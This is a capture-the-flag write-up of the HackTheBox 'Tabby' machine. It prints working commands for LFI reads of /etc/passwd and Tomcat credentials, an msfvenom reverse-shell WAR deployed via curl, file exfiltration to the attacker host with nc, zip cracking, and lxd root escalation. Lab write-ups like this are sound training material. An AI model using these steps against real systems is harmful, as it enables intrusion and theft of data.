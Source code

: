 ```yaml
---
layout: post
title: "Tabby"
date: 2022-03-05
categories: [HackTheBox, Easy-HTB]
tags: [LFI, tomcat, war file, fcrackzip, lxd]
image: ../../assets/img/posts/Tabby.png

---
```


|**Machine**|[Tabby](https://app.hackthebox.com/machines/Tabby)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[egre55](https://app.hackthebox.com/users/1190)|

---

Before getting started, let's first connect to HackTheBox vpn and run the machine.

Let's get started with nmap scan,

```bash
sudo nmap -T4 -p- -A -oN nmap_scan 10.10.10.194
```

![image](https://user-images.githubusercontent.com/67465230/156878224-da096a04-9998-4e1a-b659-789894e020d9.png)

nmap result tell us that there are 3 ports 22(SSH), 80(http), 8080(http) are open.

Let's get to know about what technologies are running on port 80

```bash
whatweb http://10.10.10.194
```

![image](https://user-images.githubusercontent.com/67465230/156878456-731c2023-bdb0-4530-9ad6-77763c8b7d77.png)

here we can see that email gives us a hint that we might resolve **megahosting.htb** domain with the machine's IP by editing **/etc/hosts file**

let's find what technologies are running on this domain,

```bash
whatweb http://megahosting.htb:8080/docs/
```

![image](https://user-images.githubusercontent.com/67465230/156878227-0026ac79-3c20-4555-94e5-ee4f462e16e1.png)

visiting http://10.10.10.194,

![image](https://user-images.githubusercontent.com/67465230/156878235-51073e88-42ca-433b-a70d-e1d5a80b7a85.png)

we land on main webpage.

Let's visit port 8080 on http://10.10.10.194:8080 as well,

![image](https://user-images.githubusercontent.com/67465230/156878241-7a553b4e-3b95-4481-9f98-bf7ea8130fc2.png)

and we can see that Users are defined in **/etc/tomcat9/tomcat-users.xml** file.

after trying everything, I found that http://megahosting.htb/news.php?file=statement has LFI vulnerability.

![image](https://user-images.githubusercontent.com/67465230/156878245-1e1a2584-53d9-4da1-a9fb-0610014b96c9.png)

we can see /etc/passwd by going to http://megahosting.htb/news.php?file=../../../../../../../../etc/passwd

![image](https://user-images.githubusercontent.com/67465230/156878249-fca889d9-4274-4cc0-8f5a-e1ff76e2068d.png)

and there's a **Ash** user. 

let's visit http://megahosting.htb/news.php?file=../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml

![image](https://user-images.githubusercontent.com/67465230/156878251-ccea820a-a83f-4ac4-afbd-677bed15b28a.png)

we got blank page. Let's view the source code,

![image](https://user-images.githubusercontent.com/67465230/156878252-c5baab16-6822-4d3a-932a-2594ab94aeaf.png)

we got credentials of tomcat user.

Let's try to ssh into the system, our ssh login failed  

```bash
ssh 10.10.10.194
```

![image](https://user-images.githubusercontent.com/67465230/156878265-d4ef5ca9-fce6-4d23-bb41-587f0ccadb50.png)

Now, we'll go to host-manager-webapp on http://megahosting.htb:8080/

![image](https://user-images.githubusercontent.com/67465230/156878259-460bd85d-a2a9-45de-b972-79fa90ec06bd.png)

Ahh! Finally we arrive at manager page,

![image](https://user-images.githubusercontent.com/67465230/156878262-509bdbcf-4874-4f41-b789-7bdcb52c28a9.png)

after loging into manager page, now we'll create a payload using `msfvenom`,

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.18 LPORT=1234 -f war > sh.war
```

and upload shell into web directory of website,

```bash
curl -u 'tomcat:' -T sh.war 'http://megahosting.htb:8080/manager/text/deploy?path=/home/shell'
```

![image](https://user-images.githubusercontent.com/67465230/156878276-281ddad8-369d-4eb3-94e5-e41ea9e767d0.png)

now start netcat listener by `nc -nvlp 1234` and trigger the uploaded shell on website

```bash
curl -u 'tomcat:******************' http://megahosting.htb:8080/home/shell/
```

![image](https://user-images.githubusercontent.com/67465230/156878697-2fc83bd9-ee22-43bf-89f0-579bd9df18e5.png)

after we execute it we'll get reverse connection,

![image](https://user-images.githubusercontent.com/67465230/156878284-7c7ca3c7-aba9-429b-87ef-de1285897e2b.png)

and now we'll upgrade shell using 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
```

![image](https://user-images.githubusercontent.com/67465230/156878288-539e22db-4b72-429c-bd02-e0bea312263d.png)

now we'll download file into our system by typing command in our machine 

```bash
nc -nvlp 5555 > 16162020_backup.zip
```

![image](https://user-images.githubusercontent.com/67465230/156878295-8b0f7980-8309-4f32-a563-8019b8140cfe.png)

and other command in that obtained shell,

```bash
nc -w 3 10.10.14.18 5555 < 16162020_backup.zip
``` 

![image](https://user-images.githubusercontent.com/67465230/156878299-67b6af1c-16c5-4957-ac7f-32a44b2a6eef.png)

Now that we have a zip file protected with password, we can try to crack the password with fcrackzip with a provided password list,

```bash
fcrackzip -D -p /home/kali/HTB/tabby/rockyou.txt 16162020_backup.zip
```

![image](https://user-images.githubusercontent.com/67465230/156878908-cc19a0ea-a3da-445b-be5e-70c445b8282e.png)

now switching to Ash user in shell and we can capture the user flag 

```bash
su ash
```

![image](https://user-images.githubusercontent.com/67465230/156878942-46aaaa5e-bb8e-43bd-8680-7946a7742055.png)

Now we have to do Privilege Escalation for root flag

now download this file in tabby dir in kali

![image](https://user-images.githubusercontent.com/67465230/156878303-27c4e8ee-1c24-41de-bfe4-ce054adc41d8.png)

after downloading,

![image](https://user-images.githubusercontent.com/67465230/156878313-337ff292-f7cb-42f4-ad5b-b2ffb91e12de.png)

and we'll download this file in the shell by writing this command on the shell side 

```bash
nc -lp 6666 > alpine-v3.12-x86_64-20201023_0344.tar.gz
```

![image](https://user-images.githubusercontent.com/67465230/156878318-765c3e03-622d-4c18-aff6-05c62447efa5.png)

and this command in our machine

```bash
nc -w 3 10.10.10.194 6666 < alpine-v3.12-x86_64-20201023_0344.tar.gz
```

![image](https://user-images.githubusercontent.com/67465230/156878323-1203c010-9f85-4484-8b4c-7b7eb3599c3c.png)

and now run this series of command

```bash
lxc  image import alpine-v3.12-x86_64-20201023_0344.tar.gz --alias ctfimage
lxc image list
lxc ctfimage tabbyimage -c security.privileged=true
lxc init ctfimage tabbyimage -c security.privileged=true
lxc config device add tabbyimage mydevice disk source=/ path=/mnt/root recursive=true
lxc start tabbyimage
lxc exec tabbyimage /bin/sh
```

![image](https://user-images.githubusercontent.com/67465230/156878328-6eb35b16-7585-4478-9a56-07859bb33408.png)

we got the root access to the system. We can now grab this root flag. (: